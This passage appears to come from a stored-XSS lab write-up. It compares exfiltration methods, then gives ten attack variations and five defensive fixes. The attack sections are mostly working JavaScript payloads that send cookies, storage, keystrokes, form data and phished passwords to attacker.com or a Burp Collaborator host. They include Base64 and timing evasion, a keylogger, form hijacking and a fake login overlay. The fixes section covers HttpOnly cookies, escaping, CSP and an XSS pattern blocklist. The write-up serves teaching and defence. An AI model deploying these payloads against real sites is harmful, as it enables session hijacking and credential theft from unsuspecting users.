Comparison to Reflected XSS:

Reflected XSS:
├── Payload in URL parameter
├── Executes only for that request
├── Non-persistent
├── Requires victim to click link
└── Single victim per link

Example reflected:
https://site.com/search?q=<script>alert(1)</script>
└── Executes only if victim visits THIS URL

Stored XSS (this lab):
Comment: <script>...</script>
└── Executes for EVERYONE who views post
    └── Including admin!
        └── Automatic exploitation! ✓

Why stored XSS is worse:
1. No victim interaction needed
   └── Just viewing page triggers it

2. Affects all users
   └── One payload = many victims

3. Long-lasting
   └── Until comment deleted

4. Targets privileged users
   └── Admins check comments
       └── High-value targets! 💰

This lab leverages stored XSS:
✓ Submit once
✓ Admin automatically views
✓ Cookie automatically stolen
✓ No victim interaction! ✓
```

---

### **JavaScript Cookie Access**

```javascript
document.cookie property:

What it returns:
console.log(document.cookie);
// Output: "session=abc123; secret=xyz789; prefs=dark"

Structure:
cookie1=value1; cookie2=value2; cookie3=value3
└── Semicolon-separated key=value pairs

All cookies for current domain:
On https://vulnerable-site.com:
document.cookie → All cookies for vulnerable-site.com

Browser security:
├── Can only access same-origin cookies
├── Cannot access other sites' cookies
└── Same-origin policy enforced ✓

But XSS bypasses this:
└── XSS runs under vulnerable site's origin
    └── Has full access to that site's cookies
        └── Can exfiltrate them! ⚠️

Cookie attributes:

Secure flag:
Set-Cookie: session=abc123; Secure
└── Only sent over HTTPS
    └── But doesn't prevent XSS theft!

HttpOnly flag:
Set-Cookie: session=abc123; HttpOnly
└── NOT accessible via JavaScript
    └── document.cookie won't return it
        └── Prevents XSS cookie theft! ✓

SameSite flag:
Set-Cookie: session=abc123; SameSite=Strict
└── Restricts cross-site sending
    └── But doesn't prevent same-origin XSS!

Domain flag:
Set-Cookie: session=abc123; Domain=.example.com
└── Cookie available to all subdomains
    └── Increases attack surface! ⚠️

Path flag:
Set-Cookie: session=abc123; Path=/admin
└── Only sent to /admin paths
    └── But document.cookie still sees it!

This lab's cookies:
session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
├── No HttpOnly flag ❌
├── Accessible via JavaScript ❌
└── Vulnerable to XSS theft! ⚠️

If HttpOnly was set:
Set-Cookie: session=abc123; HttpOnly

Then:
document.cookie → "secret=xyz789; prefs=dark"
└── session cookie NOT included! ✓

Lab intentionally vulnerable:
└── No HttpOnly on session cookie
    └── Allows XSS theft
        └── Educational vulnerability! ✓

Real-world defense:
ALWAYS set HttpOnly on session cookies!
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict

This prevents:
✓ JavaScript access (HttpOnly)
✓ Man-in-the-middle (Secure)
✓ CSRF (SameSite)
✓ Defense in depth! ✓
```

---

### **Fetch API vs Traditional Methods**

```javascript
Comparison of exfiltration techniques:

Method 1: fetch() API (Lab uses this)
<script>
fetch('https://attacker.com', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>

Advantages:
✅ Modern API (ES6+)
✅ Promise-based
✅ POST method (data in body)
✅ Clean syntax
✅ mode: 'no-cors' bypasses preflight
✅ Widely supported (IE 11+)

Method 2: XMLHttpRequest (Traditional)
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://attacker.com', true);
xhr.send(document.cookie);
</script>

Advantages:
✅ Universal support
✅ POST method
Disadvantages:
❌ More verbose
❌ Callback-based (not promises)
❌ Older API

Method 3: Image tag (Classic)
<script>
new Image().src = 'https://attacker.com/?c=' + document.cookie;
</script>

Or:
<script>
document.write('');
</script>

Advantages:
✅ Very simple
✅ Universal support
✅ Single line
Disadvantages:
❌ GET method only
❌ URL length limits
❌ Cookie visible in URL/logs
❌ Special chars need encoding

Method 4: Beacon API (Modern)
<script>
navigator.sendBeacon('https://attacker.com', document.cookie);
</script>

Advantages:
✅ Designed for analytics
✅ Sent even on page unload
✅ POST method
Disadvantages:
❌ Less control
❌ Newer API (might not work on old browsers)

Method 5: WebSocket (Advanced)
<script>
var ws = new WebSocket('wss://attacker.com');
ws.onopen = function() {
    ws.send(document.cookie);
};
</script>

Advantages:
✅ Real-time bidirectional
✅ Can receive commands from attacker
Disadvantages:
❌ Requires WebSocket server
❌ More complex
❌ Easier to detect

Why fetch() is recommended:

Modern and clean:
fetch('https://attacker.com', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});

Older equivalent (XMLHttpRequest):
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://attacker.com', true);
xhr.setRequestHeader('Content-Type', 'text/plain');
xhr.send(document.cookie);

fetch() is cleaner! ✓

CORS handling:
Without mode: 'no-cors':
└── Browser sends preflight OPTIONS
    └── Checks if server allows CORS
        └── Collaborator may not respond
            └── Request blocked! ❌

With mode: 'no-cors':
└── Browser skips preflight
    └── Sends POST directly
        └── Can't read response (but we don't need to!)
            └── Perfect for exfiltration! ✓

POST vs GET:

GET (Image method):


URL visible in:
├── Browser history
├── Server logs
├── Proxy logs
└── Referrer headers ⚠️

POST (fetch method):
POST / HTTP/1.1
Host: attacker.com

session=abc123;secret=xyz

Cookie in body:
✓ Not in URL
✓ Not in browser history
✓ Less visible in logs
✓ More professional! ✓

URL length limits:
GET with long cookie:
https://attacker.com/?c=very_long_cookie_value_that_exceeds_url_length_limit...
└── May be truncated! ❌

POST with long cookie:
POST body can be much larger
└── No truncation! ✓

Lab choice (fetch):
✅ Modern best practice
✅ Clean and readable
✅ POST method
✅ Professional approach
✅ Recommended! ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: Image-Based Exfiltration (Traditional)**

```js
Payload using Image tag:

<script>
new Image().src = 'https://BURP-COLLABORATOR-SUBDOMAIN/?c=' + document.cookie;
</script>

How it works:
new Image().src = 'https://abc123.burpcollaborator.net/?c=' + document.cookie;
└── Creates invisible image element
    └── Browser tries to load image
        └── Makes GET request
            └── Cookie in URL parameter

Collaborator receives:
GET /?c=session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp;secret=s3cr3t
                └── Cookie value in URL!

Advantages:
✅ Simple syntax
✅ Single line
✅ Works everywhere
✅ No fetch() API needed

Disadvantages:
❌ GET request (not POST)
❌ Cookie visible in URL
❌ URL length limits
❌ Less professional

Alternative with document.write:
<script>
document.write('');
</script>

Both create GET request:
GET /?c=session=abc123;secret=xyz
Host: abc123.burpcollaborator.net

With URL encoding (recommended):
<script>
new Image().src = 'https://BURP-COLLABORATOR-SUBDOMAIN/?c=' + encodeURIComponent(document.cookie);
</script>

Why encodeURIComponent?
└── Cookies contain ; = characters
    └── Can break URL structure
        └── Encoding prevents issues! ✓

Example:
Without encoding:
/?c=session=abc;secret=xyz
     └── ; might be interpreted as parameter separator!

With encoding:
/?c=session%3Dabc%3Bsecret%3Dxyz
     └── Properly encoded! ✓

This variation works for the lab! ✓
```

---

### **Variation 2: XMLHttpRequest Method**

```javascript
Payload using XMLHttpRequest:

<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://BURP-COLLABORATOR-SUBDOMAIN', true);
xhr.send(document.cookie);
</script>

Step-by-step:
var xhr = new XMLHttpRequest();
└── Create XMLHttpRequest object

xhr.open('POST', 'https://abc123.burpcollaborator.net', true);
└── Initialize POST request
    └── Third parameter (true) = asynchronous

xhr.send(document.cookie);
└── Send cookie as request body

Result:
POST / HTTP/1.1
Host: abc123.burpcollaborator.net

session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp;secret=s3cr3t

Advantages:
✅ Universal browser support
✅ POST method
✅ Cookie in body
✅ Well-established

Disadvantages:
❌ More verbose than fetch()
❌ Callback-based
❌ Older API

With error handling:
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://BURP-COLLABORATOR-SUBDOMAIN', true);
xhr.onerror = function() {
    // Silently fail - still exfiltrate on success
};
xhr.send(document.cookie);
</script>

This variation works for the lab! ✓
```

---

### **Variation 3: Beacon API (Modern)**

```javascript
Payload using Beacon API:

<script>
navigator.sendBeacon('https://BURP-COLLABORATOR-SUBDOMAIN', document.cookie);
</script>

Why Beacon API?
└── Designed for analytics/logging
    └── Sends data even if page unloads
        └── Reliable exfiltration! ✓

Example:
navigator.sendBeacon('https://abc123.burpcollaborator.net', document.cookie);

Result:
POST / HTTP/1.1
Host: abc123.burpcollaborator.net
Content-Type: text/plain

session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp;secret=s3cr3t

Advantages:
✅ Very simple syntax
✅ Guaranteed delivery (even on unload)
✅ POST method
✅ Asynchronous

Disadvantages:
❌ Limited browser support (IE doesn't support)
❌ Less control over request

Browser support:
✅ Chrome 39+
✅ Firefox 31+
✅ Safari 11.1+
✅ Edge 14+
❌ Internet Explorer (not supported)

Use case:
└── Perfect for exfiltration
    └── Fire-and-forget
        └── No response needed! ✓

This variation works for the lab (if browser supports)! ✓
```

---

### **Variation 4: Multiple Data Points**

```javascript
Exfiltrate more than just cookies:

<script>
var data = {
    cookie: document.cookie,
    url: window.location.href,
    userAgent: navigator.userAgent,
    referrer: document.referrer
};

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(data)
});
</script>

Collected data:
{
    "cookie": "session=abc123;secret=xyz",
    "url": "https://vulnerable-site.com/post?id=5",
    "userAgent": "Mozilla/5.0...",
    "referrer": "https://vulnerable-site.com/"
}

Collaborator receives:
POST / HTTP/1.1
Host: abc123.burpcollaborator.net
Content-Type: text/plain

{"cookie":"session=abc123;secret=xyz","url":"https://..."}

Additional data value:
├── URL: Know which page victim visited
├── User-Agent: Browser fingerprinting
├── Referrer: Navigation tracking
└── More intelligence! 🎯

Even more data:
<script>
var info = {
    cookie: document.cookie,
    localStorage: JSON.stringify(localStorage),
    sessionStorage: JSON.stringify(sessionStorage),
    url: window.location.href,
    screenResolution: screen.width + 'x' + screen.height,
    timeZone: Intl.DateTimeFormat().resolvedOptions().timeZone
};

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(info)
});
</script>

Maximum intelligence gathering! 🎯
```

---

### **Variation 5: Base64 Encoding (Evasion)**

```javascript
Encode cookie for evasion:

<script>
var cookie = btoa(document.cookie);
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body: cookie
});
</script>

Why Base64?
└── Obfuscates data
    └── May bypass some WAFs
        └── Looks less suspicious

Example:
Original: session=abc123;secret=xyz
Base64: c2Vzc2lvbj1hYmMxMjM7c2VjcmV0PXh5eg==

Collaborator receives:
POST / HTTP/1.1
Host: abc123.burpcollaborator.net

c2Vzc2lvbj1hYmMxMjM7c2VjcmV0PXh5eg==

Decode on attacker side:
echo "c2Vzc2lvbj1hYmMxMjM7c2VjcmV0PXh5eg==" | base64 -d
Output: session=abc123;secret=xyz

Benefits:
✅ Evasion technique
✅ No special characters
✅ Fixed character set
✅ Easy to decode

Drawback:
❌ Increases size by ~33%
    └── Not an issue for cookies

With identification:
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body: 'COOKIE:' + btoa(document.cookie)
});
</script>

Collaborator receives:
COOKIE:c2Vzc2lvbj1hYmMxMjM7c2VjcmV0PXh5eg==
└── Easy to identify and decode! ✓
```

---

### **Variation 6: Stealth with Delay**

```javascript
Delayed exfiltration to avoid detection:

<script>
setTimeout(function() {
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
}, 5000);
</script>

Why delay?
└── Wait 5 seconds before exfiltrating
    └── Victim may navigate away
        └── Less correlation with comment view
            └── Stealthier! ✓

Random delay:
<script>
var delay = Math.floor(Math.random() * 10000) + 5000; // 5-15 seconds
setTimeout(function() {
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
}, delay);
</script>

Benefits:
└── Variable timing
    └── Harder to detect pattern
        └── Each victim different delay! ✓

Multiple attempts:
<script>
var attempts = 0;
var maxAttempts = 3;
var interval = setInterval(function() {
    if (attempts < maxAttempts) {
        fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
            method: 'POST',
            mode: 'no-cors',
            body: document.cookie + ';attempt=' + attempts
        });
        attempts++;
    } else {
        clearInterval(interval);
    }
}, 10000); // Every 10 seconds
</script>

Why multiple attempts?
└── Increases reliability
    └── If first fails, others may succeed
        └── Redundancy! ✓
```

---

### **Variation 7: Alternative Solution (CSRF Approach)**

The lab mentions an "alternative solution" that doesn't require Burp Collaborator:

```javascript
Post victim's cookie as a comment:

<script>
window.addEventListener('DOMContentLoaded', function() {
    var token = document.getElementsByName('csrf')[0].value;
    var data = new FormData();
    data.append('csrf', token);
    data.append('postId', '5'); // Adjust based on post ID
    data.append('comment', document.cookie);
    data.append('name', 'Victim');
    data.append('email', 'victim@email.com');
    data.append('website', '');
    
    fetch('/post/comment', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
});
</script>

How this works:

Step 1: Wait for DOM to load
window.addEventListener('DOMContentLoaded', ...)
└── Ensures page fully loaded
    └── CSRF token available

Step 2: Get CSRF token
var token = document.getElementsByName('csrf')[0].value;
└── Extracts CSRF token from page
    └── Required for comment submission

Step 3: Create form data
var data = new FormData();
data.append('csrf', token);
data.append('postId', '5');
data.append('comment', document.cookie); ← Cookie as comment!
data.append('name', 'Victim');
data.append('email', 'victim@email.com');

Step 4: Submit comment
fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});

Step 5: Victim posts their own cookie
Result: New comment appears
Author: Victim
Comment: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp;secret=s3cr3t
└── Cookie publicly visible! ⚠️

Step 6: Attacker reads cookie
└── Just view comments on blog post
    └── Cookie displayed as comment text
        └── Copy and use! ✓

Why this is "less subtle":
❌ Cookie exposed publicly
❌ Evidence of attack visible
❌ Victim's name on malicious comment
❌ Suspicious behavior obvious
❌ Easier to detect and investigate

Burp Collaborator approach is better:
✅ Cookie sent privately
✅ No public evidence
✅ Victim unaware
✅ Stealthier attack
✅ Preferred method! ✓

But CSRF approach works:
└── No external server needed
    └── Uses site's own functionality
        └── Clever technique! ✓
```

---

### **Variation 8: Keylogger Installation**

```javascript
Beyond just cookies - install persistent keylogger:

<script>
// Exfiltrate cookie first
fetch('https://BURP-COLLABORATOR-SUBDOMAIN/cookie', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});

// Install keylogger
document.addEventListener('keypress', function(e) {
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN/key', {
        method: 'POST',
        mode: 'no-cors',
        body: e.key
    });
});
</script>

Result:
└── Cookie stolen immediately
    └── Every keypress logged thereafter
        └── Passwords, messages, everything! 💀

Collaborator receives:
POST /cookie → session=abc123
POST /key → p
POST /key → a
POST /key → s
POST /key → s
POST /key → w
POST /key → o
POST /key → r
POST /key → d
POST /key → 1
POST /key → 2
POST /key → 3
└── Full password captured! 💀

Impact:
└── Session hijacking (cookie)
    └── + Long-term surveillance (keylogger)
        └── Maximum compromise! ⚠️
```

---

### **Variation 9: Form Hijacking**

```javascript
Intercept form submissions:

<script>
// Steal cookie
fetch('https://BURP-COLLABORATOR-SUBDOMAIN/cookie', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});

// Hijack all forms
document.addEventListener('submit', function(e) {
    var formData = new FormData(e.target);
    var data = {};
    formData.forEach((value, key) => {
        data[key] = value;
    });
    
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN/form', {
        method: 'POST',
        mode: 'no-cors',
        body: JSON.stringify(data)
    });
}, true);
</script>

Captures:
├── Login forms (credentials)
├── Password change forms
├── Payment forms
└── Any form submission! 💀

Example capture:
POST /form
{
    "username": "admin",
    "password": "secret123",
    "new_password": "newPass456"
}

Impact:
└── Cookie + credentials + form data
    └── Complete account control! 💥
```

---

### **Variation 10: Phishing Overlay**

```javascript
Create fake login form overlay:

<script>
// Steal cookie first
fetch('https://BURP-COLLABORATOR-SUBDOMAIN/cookie', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});

// Create phishing overlay
var overlay = document.createElement('div');
overlay.innerHTML = `
    <div style="position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.8);z-index:9999;">
        <div style="position:absolute;top:50%;left:50%;transform:translate(-50%,-50%);background:white;padding:20px;border-radius:5px;">
            <h2>Session Expired</h2>
            <p>Please log in again:</p>
            <input type="text" id="phish_user" placeholder="Username"><br>
            <input type="password" id="phish_pass" placeholder="Password"><br>
            <button onclick="phishSubmit()">Login</button>
        </div>
    </div>
`;
document.body.appendChild(overlay);

window.phishSubmit = function() {
    var user = document.getElementById('phish_user').value;
    var pass = document.getElementById('phish_pass').value;
    
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN/phish', {
        method: 'POST',
        mode: 'no-cors',
        body: JSON.stringify({username: user, password: pass})
    });
    
    overlay.style.display = 'none';
};
</script>

Result:
└── Victim sees "Session Expired" popup
    └── Enters credentials
        └── Credentials sent to attacker
            └── Overlay disappears
                └── Victim thinks they re-authenticated! ✓

Captured data:
POST /cookie → session=abc123
POST /phish → {"username":"admin","password":"secretPass"}

Impact:
└── Session cookie + plaintext password
    └── Complete account compromise! 💀
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Set HttpOnly Flag on Session Cookies (Primary Defense)**

```python
# ✅ SECURE - HttpOnly prevents JavaScript access

from flask import Flask, make_response

app = Flask(__name__)

@app.route('/login', methods=['POST'])
def login():
    # Authenticate user...
    
    # Create response
    response = make_response('Login successful')
    
    # Set session cookie with HttpOnly flag
    response.set_cookie(
        'session',
        value='abc123xyz789',
        httponly=True,      # ← CRITICAL! Prevents JavaScript access
        secure=True,        # Only sent over HTTPS
        samesite='Strict'   # CSRF protection
    )
    
    return response

# Result:
# Set-Cookie: session=abc123xyz789; HttpOnly; Secure; SameSite=Strict

# Browser behavior:
# document.cookie → "secret=xyz; prefs=dark"
#                   └── session cookie NOT included! ✓

# XSS payload:
# fetch('https://attacker.com', {
#     body: document.cookie  ← Only gets non-HttpOnly cookies
# });

# Collaborator receives:
# secret=xyz; prefs=dark
# └── No session cookie! ✓

# Attack fails:
# └── Session cookie protected
#     └── Cannot be stolen via XSS
#         └── Primary defense! ✓

# PHP equivalent:
"""
<?php
session_start();
setcookie(
    'session',
    'abc123xyz789',
    [
        'httponly' => true,    // Prevents JavaScript access
        'secure' => true,      // HTTPS only
        'samesite' => 'Strict' // CSRF protection
    ]
);
?>
"""

# Node.js (Express) equivalent:
"""
app.post('/login', (req, res) => {
    res.cookie('session', 'abc123xyz789', {
        httpOnly: true,    // Prevents JavaScript access
        secure: true,      // HTTPS only
        sameSite: 'strict' // CSRF protection
    });
    res.send('Login successful');
});
"""

# Why HttpOnly is critical:
# ├── Prevents document.cookie access
# ├── XSS can't steal session cookie
# ├── Defense even if XSS exists
# └── Essential security control! ✓

# What HttpOnly does NOT prevent:
# ├── XSS still exists
# ├── Attackers can still perform actions
# ├── Just can't steal session cookie
# └── Defense in depth needed! ⚠️
```

---

### **Fix 2: Input Sanitization (Prevent XSS)**

```python
# ✅ SECURE - Sanitize user input

from flask import Flask, request, escape
import bleach

app = Flask(__name__)

@app.route('/post/comment', methods=['POST'])
def post_comment():
    # Get user input
    comment = request.form.get('comment', '')
    name = request.form.get('name', '')
    email = request.form.get('email', '')
    
    # Method 1: HTML escape (simple but effective)
    safe_comment = escape(comment)
    safe_name = escape(name)
    safe_email = escape(email)
    
    # Store in database...
    
    return 'Comment posted'

# HTML escaping converts:
# < → &lt;
# > → &gt;
# " → &quot;
# ' → &#x27;
# & → &amp;

# Example:
# Input: <script>alert(1)</script>
# Escaped: &lt;script&gt;alert(1)&lt;/script&gt;

# When displayed in HTML:
# <div class="comment">
#     <p>&lt;script&gt;alert(1)&lt;/script&gt;</p>
# </div>

# Browser renders as text:
# <script>alert(1)</script>
# └── Displayed as text, not executed! ✓

# Method 2: Bleach (allows safe HTML)
def sanitize_comment(comment):
    # Allow only safe tags
    allowed_tags = ['b', 'i', 'u', 'a', 'p', 'br']
    allowed_attrs = {
        'a': ['href', 'title']
    }
    
    clean = bleach.clean(
        comment,
        tags=allowed_tags,
        attributes=allowed_attrs,
        strip=True
    )
    
    return clean

# Example:
# Input: <b>Bold</b> <script>alert(1)</script>
# Output: <b>Bold</b> alert(1)
# └── Script tags stripped! ✓

# Input: <a href="javascript:alert(1)">Click</a>
# Output: <a>Click</a>
# └── Malicious href removed! ✓

# Method 3: DOMPurify (JavaScript client-side)
"""
<script src="https://cdn.jsdelivr.net/npm/dompurify@2.4.0/dist/purify.min.js"></script>
<script>
    var dirty = '';
    var clean = DOMPurify.sanitize(dirty);
    // clean = ''
    // onerror removed! ✓
</script>
"""

# Best practice:
# ✅ Sanitize on input (server-side)
# ✅ Escape on output (template)
# ✅ Defense in depth! ✓
```

---

### **Fix 3: Content Security Policy (CSP)**

```html
<!-- ✅ SECURE - CSP prevents inline scripts -->

<!-- Server sends CSP header: -->
<!-- Content-Security-Policy: default-src 'self'; script-src 'self' -->

<!-- Or meta tag: -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self'">

<!-- Impact on XSS: -->
<!--
Attacker payload:
<script>
fetch('https://attacker.com', {
    body: document.cookie
});
</script>

CSP blocks this:
└── Inline scripts not allowed
    └── Only scripts from 'self' (same origin)
        └── Inline <script> blocked! ✓

Console error:
"Refused to execute inline script because it violates 
the following Content Security Policy directive: 
script-src 'self'"
-->

<!-- Strict CSP (best): -->
<!--
Content-Security-Policy: 
    default-src 'none';
    script-src 'self';
    style-src 'self';
    img-src 'self';
    connect-src 'self';
    font-src 'self';
    object-src 'none';
    base-uri 'self';
    form-action 'self';
-->

<!-- What this blocks: -->
<!--
✓ Inline scripts (<script>...)
✓ Inline event handlers (onerror=)
✓ javascript: URLs
✓ External script sources
✓ eval() and similar functions
✓ Most XSS attacks! ✓
-->

<!-- Using nonces (for legitimate inline scripts): -->
<!--
CSP: script-src 'self' 'nonce-abc123'

Legitimate script:
<script nonce="abc123">
    // This script allowed (has correct nonce)
</script>

XSS payload:
<script>alert(1)</script>
└── Blocked! (no nonce) ✓

<script nonce="abc123">alert(1)</script>
└── Still blocked! (attacker can't guess nonce) ✓
-->

<!-- Python Flask implementation: -->
"""
from flask import Flask, render_template
import secrets

app = Flask(__name__)

@app.route('/')
def index():
    # Generate random nonce
    nonce = secrets.token_hex(16)
    
    # Set CSP header with nonce
    response = make_response(render_template('index.html', nonce=nonce))
    response.headers['Content-Security-Policy'] = f"script-src 'self' 'nonce-{nonce}'"
    
    return response
"""

<!-- Template uses nonce: -->
<!--
<script nonce="{{ nonce }}">
    // Legitimate application code
</script>
-->

<!-- Benefits: -->
<!--
✅ Blocks inline XSS
✅ Blocks external sources
✅ Defense even if XSS exists
✅ Industry best practice! ✓
-->

<!-- Limitations: -->
<!--
❌ CSP won't help if:
    └── Script from allowed source is vulnerable
    └── Attacker can inject into allowed script
    └── DOM-based XSS uses allowed APIs
└── Defense in depth needed! ⚠️
-->
```

---

### **Fix 4: Template Auto-Escaping**

```python
# ✅ SECURE - Use template engine with auto-escaping

from flask import Flask, render_template

app = Flask(__name__)

# Jinja2 templates (Flask default) auto-escape by default!

@app.route('/post/<int:post_id>')
def view_post(post_id):
    # Get comments from database
    comments = get_comments(post_id)
    
    # Render template (auto-escaping enabled)
    return render_template('post.html', comments=comments)

# Template (post.html):
"""
<div class="comments">
    
        <div class="comment">
            <p class="author">{{ comment.name }}</p>
            <p class="body">{{ comment.text }}</p>
        </div>
    
</div>
"""

# How auto-escaping works:

# Comment data:
# {
#     'name': 'Hacker',
#     'text': '<script>alert(1)</script>'
# }

# Jinja2 auto-escapes {{ ... }}:
# {{ comment.text }} becomes:
# &lt;script&gt;alert(1)&lt;/script&gt;

# Rendered HTML:
"""
<div class="comment">
    <p class="author">Hacker</p>
    <p class="body">&lt;script&gt;alert(1)&lt;/script&gt;</p>
</div>
"""

# Browser displays:
# <script>alert(1)</script>
# └── As text, not executed! ✓

# Disable escaping (DANGEROUS):
"""
{{ comment.text | safe }}
└── Disables auto-escaping ⚠️
    └── ONLY use if content is trusted!
"""

# Manual escaping (when needed):
"""
from markupsafe import escape

safe_text = escape(user_input)
"""

# Other template engines:

# Django (auto-escapes by default):
"""
{{ comment.text }}
└── Auto-escaped ✓

{{ comment.text|safe }}
└── Disables escaping ⚠️
"""

# React (JSX escapes by default):
"""
<div>{comment.text}</div>
└── Auto-escaped ✓

<div dangerouslySetInnerHTML={{__html: comment.text}} />
└── Disables escaping ⚠️
"""

# Angular (escapes by default):
"""
<p>{{comment.text}}</p>
└── Auto-escaped ✓

<p [innerHTML]="comment.text"></p>
└── Disables escaping ⚠️
"""

# Best practice:
# ✅ Use template engine with auto-escaping
# ✅ Never disable escaping for user input
# ✅ Trust the framework! ✓
```

---

### **Fix 5: Input Validation**

```python
# ✅ SECURE - Validate input format

from flask import Flask, request, abort
import re

app = Flask(__name__)

@app.route('/post/comment', methods=['POST'])
def post_comment():
    comment = request.form.get('comment', '')
    name = request.form.get('name', '')
    email = request.form.get('email', '')
    
    # Validate comment length
    if len(comment) > 500:
        abort(400, 'Comment too long')
    
    # Validate name (alphanumeric and spaces only)
    if not re.match(r'^[a-zA-Z\s]{1,50}$', name):
        abort(400, 'Invalid name')
    
    # Validate email format
    if not re.match(r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$', email):
        abort(400, 'Invalid email')
    
    # Block common XSS patterns
    xss_patterns = [
        r'<script',
        r'javascript:',
        r'onerror=',
        r'onload=',
        r'onclick=',
        r'<iframe',
        r'<object',
        r'<embed'
    ]
    
    comment_lower = comment.lower()
    for pattern in xss_patterns:
        if re.search(pattern, comment_lower):
            abort(400, 'Invalid content')
    
    # Store comment (with additional escaping)
    safe_comment = escape(comment)
    save_comment(safe_comment, name, email)
    
    return 'Comment posted'

# Validation benefits:
# ✅ Blocks obvious XSS
# ✅ Reduces attack surface
# ✅ Input format enforcement
# ✅ Defense layer! ✓

# Limitations:
# ❌ Blacklist can be bypassed
# ❌ New attack vectors emerge
# └── Must combine with output encoding! ⚠️

# Better: Whitelist approach
def validate_comment(comment):
    # Only allow safe characters
    allowed_chars = set('abcdefghijklmnopqrstuvwxyz'
                       'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
                       '0123456789'
                       ' .,!?\'"-\n')
    
    for char in comment:
        if char not in allowed_chars:
            return False
    
    return True

# Usage:
if not validate_comment(comment):
    abort(400, 'Comment contains invalid characters')

# This blocks:
# ❌ < > (HTML tags)
# ❌ ( ) (JavaScript)
# ❌ { } (Code blocks)
# ❌ ; (Statement separators)
# └── Most XSS prevented! ✓

# Defense in depth:
# Layer 1: Input validation (block malicious input)
# Layer 2: Output encoding (escape when displaying)
# Layer 3: CSP (block execution)
# Layer 4: HttpOnly (protect cookies)
# └── Multiple defenses! ✓
```

---
